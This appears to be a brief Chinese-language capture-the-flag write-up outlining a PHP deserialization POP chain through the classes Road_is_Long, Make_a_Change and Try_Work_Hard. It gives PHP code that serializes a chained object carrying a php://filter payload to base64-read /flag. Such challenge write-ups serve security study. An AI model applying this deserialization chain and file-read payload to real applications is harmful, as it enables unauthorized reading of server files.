 - # 思路
	- 简单POP, 注意flag在根目录的`/flag`下
	- ```
	  Road_is_Long:: __wakeup -->
	  Road_is_Long:: __toString -->
	  Make_a_Change:: __get -->
	  Try_Work_Hard:: __invoke -->
	  Try_Work_Hard:: append
	  ```
	- ```php
	  $payload = "php://filter/read=convert.base64-encode/resource=/flag";
	  $o5 = new Try_Work_Hard();
	  $o5 -> setvar($payload);
	  $o3 = new Make_a_Change();
	  $o3 -> effort = $o5;
	  $o2 = new Road_is_Long();
	  $o2 -> string = $o3;
	  $o1 = new Road_is_Long();
	  $o1 -> page = $o2;
	  echo urlencode(serialize($o1));
	  
	  ```
-
